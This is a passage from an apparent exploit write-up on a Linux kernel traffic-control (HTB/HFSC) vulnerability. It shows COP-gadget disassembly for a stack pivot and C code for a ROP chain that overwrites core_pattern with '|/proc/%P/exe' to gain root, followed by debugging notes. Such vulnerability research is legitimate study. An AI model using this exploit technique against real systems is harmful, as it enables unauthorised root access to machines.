 When the second COP gadget is executed, `RDI` contains the CEA address. First, `RBP` is populated with the address of `CEA + 0x8`, which will serve as new kernel stack. `RAX` is then set to `[CEA + 0x30]`, a leave ret gadget.

When `RAX` is called, the leave gadget is executed allowing us to stack pivot into CEA.

```c
// COP gadget 2: RDI == htb_class addr, [RDI+0x18] == htb_class->rate.rate_bytes_ps aka CEA
//
// ffffffff820d6375:    push   rbp
// ffffffff820d6376:    push   rbx
// ffffffff820d6377:    mov    rax,QWORD PTR [rdi+0x18] // RAX = CEA
// ffffffff820d637b:    mov    rbp,QWORD PTR [rax+0x8]  // RBP = [CEA + 0x8] = CEA + 0x8 (points to itself)
// ffffffff820d637f:    test   rbp,rbp
// ffffffff820d6382:    je     0xffffffff820d63a6       // JMP not taken
// ffffffff820d6384:    mov    rax,QWORD PTR [rbp+0x28] // RAX =  (CEA + 0x8) + 0x28 = CEA + 0x30 = LEAVE_RET gadget
// ffffffff820d6388:    mov    rbx,rdi
// ffffffff820d638b:    call   0xffffffff82484e80       // call RAX (LEAVE_RET gadget)
//
#define COP_GADGET_2 0xffffffff820d6375
```

The second stage of the ROP-chain is straightforward:

```c
    // Stage 2: Overwrite core_pattern
    cea_payload[2]  = kbase + POP_RDI_POP_RSI_POP_RDX_POP_RCX_RET;
    cea_payload[3]  = kbase + CORE_PATTERN;
    cea_payload[4]  = CEA_OFFSET(cea_base) + 0x60;
    // ... [5]
    // ... [6]
    cea_payload[7]  = kbase + POP_RCX_RET;
    cea_payload[8]  = EVIL_CORE_PATTERN_LEN;
    cea_payload[9]  = kbase + REP_MOVS_BYTE_PTR_RDI_BYTE_PTR_RSI_RET;
    cea_payload[10] = kbase + DO_IDLE;
    cea_payload[11] = kbase + INFINITE_LOOP;
```

First `core_pattern` is set to `|/proc/%P/exe`, so the exploit binary is launched with root privileges when a segmentation fault is triggered. 

The rest of the ROP chain only consists of a `do_idle()` call followed by an infinite loop gadget used to hang the kernel thread that called `dequeue()`.

## Additional Notes

While the LTS/COS exploit only requires two RBTree transformations to achieve a pointer copy primitive, this exploit is much more complicated. To facilitate debugging of the RBTree states, I have written a simple GDB plugin specifically for this vulnerability to inspect the HFSC eligible tree.

**Example:**

We want to verify the state of the tree after the `rb_node` pointer is incremented in `@step(7)`.
To do this, we add a `getchar()` after `send_packets("dummy-1", 64, ptr_increment, TC_H(1, 2));`, then:
